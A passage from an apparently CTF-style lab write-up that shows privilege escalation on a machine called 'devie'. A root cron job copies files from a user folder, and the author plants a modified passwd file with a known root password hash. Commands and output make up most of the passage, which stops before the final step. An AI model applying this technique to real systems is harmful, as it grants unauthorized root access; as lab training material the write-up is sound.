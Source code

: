 ```
...
...
2023/04/09 17:34:01 CMD: UID=0    PID=1668   | /usr/sbin/CRON -f 
2023/04/09 17:34:01 CMD: UID=0    PID=1670   | /usr/bin/bash /usr/bin/backup 
2023/04/09 17:34:01 CMD: UID=0    PID=1669   | /bin/sh -c /usr/bin/bash /usr/bin/backup 
```

There is a backup script running every minutes located in `/usr/bin/backup`. Let's take a look at it :  
```
gordon@devie:/tmp$ file /usr/bin/backup 
/usr/bin/backup: Bourne-Again shell script, ASCII text executable
gordon@devie:/tmp$ cat /usr/bin/backup 
#!/bin/bash

cd /home/gordon/reports/

cp * /home/gordon/backups/
```

It just copies all files in `/home/gordon/reports` to `/home/gordon/backups`. We can escalate our privileges from this. To do so, we have to create a custom passwd file. Let's copy the original one first in `/home/gordon/reports` :  
```
gordon@devie:~$ cd reports/
gordon@devie:~/reports$ cp /etc/passwd ./
gordon@devie:~/reports$ ls
passwd  report1  report2  report3
```

Now let's generate a password hash on our attacking machine :  
```
attacker@AttackBox:~$ mkpasswd --method=SHA-256 --stdin
Mot de passe : root
$5$W8ZiasBBqkkOB7au$Db7uEYcWuCXdaxoeYSKZ8Uf9408hwMi2dvjEVQuIRGC
```

Let's copy this hash and paste it in `/home/gordon/reports/passwd` like so :  
```
gordon@devie:~/reports$ nano passwd 
gordon@devie:~/reports$ head passwd 
root:$5$W8ZiasBBqkkOB7au$Db7uEYcWuCXdaxoeYSKZ8Uf9408hwMi2dvjEVQuIRGC:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```

Now, lets remove the `backups` directory :  
```
gordon@devie:~/reports$ cd ..
gordon@devie:~$ ls
backups  flag2.txt  reports
gordon@devie:~$ rm backups/ -dfr
gordon@devie:~$ ls
flag2.txt  reports
```
